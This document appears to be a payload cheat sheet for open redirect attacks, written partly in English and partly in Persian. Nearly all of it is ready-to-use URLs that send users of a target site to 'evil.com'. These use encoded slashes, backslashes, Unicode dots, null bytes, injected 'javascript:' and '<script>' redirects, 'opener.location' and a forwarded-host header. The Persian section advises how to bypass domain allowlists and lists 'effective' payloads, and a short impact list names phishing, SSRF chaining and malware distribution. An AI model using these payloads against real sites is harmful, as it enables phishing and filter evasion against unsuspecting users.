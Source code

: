 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: site.com/.../current_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com   <<<===

2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 
===>>> http://victim.com/page?redirect=http://evil.com
http://victim.com/page?url=https://evil.com
http://victim.com/page?next=//evil.com
http://victim.com/page?return=%2F%2Fevil.com
http://victim.com/page?redirect=https%3A%2F%2Fevil.com%2F
http://victim.com/page?redirect=///evil.com
http://victim.com/page?redirect=\/\evil.com
http://victim.com/page?redirect=javascript:window.location='http://evil.com'
http://victim.com/page?redirect=%3Cscript%3Ewindow.location='http://evil.com'%3C%2Fscript%3E
http://victim.com/page?redirect=//evil.com%00
http://victim.com/page?redirect=https://evil.com%2F%5C
===>>>
3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection

4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com

5 - payload: {%E3%80%82}


===>>> example: https://20.44.36.49//google%E3%80%82com , https://20.44.36.49//bing%E3%80%82com , https://20.44.36.49//yahoo%E3%80%82com

6 - payload: { opener.location="https://evil.com"}

===>>> example: email ===>>> inspect ===>>> console: opener.location="https://evil.com"

7 - payload: {forget password}

===>>> example: https://20.44.36.49/.../google.com


==================================================================

نکته مهم درباره payloadهای Open Redirect
۱. بسیاری از اپلیکیشنها کنترل میکنند که URL مقصد فقط به دامنههای مشخصی اشاره کند (مثل فقط دامنه داخلی)، پس برای bypass باید گاهی payloadهایی شبیه به اینها استفاده کرد:
```
http://example.com/redirect?url=//evil.com (دو اسلش بدون schema)

http://example.com/redirect?url=/\evil.com

http://example.com/redirect?url=http:///evil.com
```
استفاده از کدگذاریهای URL (URL encoding): %2F%2Fevil.com

استفاده از کدگذاریهای Unicode یا دور زدن با کاراکترهای Unicode یا کاراکترهای غیرمعمول

۲. آزمایش با ترکیبی از کدگذاریها و کاراکترهای ویژه:

```
redirect=https:%2F%2Fevil.com
redirect=https:/\evil.com
redirect=////evil.com
redirect=//evil.com%00
redirect=//evil.com/
```
توصیه من برای payloadهای Open Redirect بروز شده:
از encoded URL ها استفاده کنید (%3A, %2F, %5C)

دستورات جاوااسکریپت را با <script> یا بدون آن به صورت encoded ارسال نکنید مگر بدانید که برنامه این را قبول میکند (زیرا بیشتر این حالتها XSS است)

از مسیرهای نامتعارف و شیوههای encode و Unicode جهت دور زدن فیلترهای معمول استفاده کنید.

نمونه payloadهای به روز و موثر:
```
redirect=https://evil.com
redirect=//evil.com
redirect=///evil.com
redirect=/%5Cevil.com
redirect=%2F%2Fevil.com
redirect=/%2Fevil.com
redirect=https:%2F%2Fevil.com
redirect=https:/\evil.com
redirect=%2F%2F%2Fevil.com
redirect=https://evil.com%00
redirect=https://evil.com%2F
redirect=%EF%BC%8E%EF%BC%8E%2Fevil.com   (دو نقطه fullwidth + اسلش)
```

==================================================================
## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
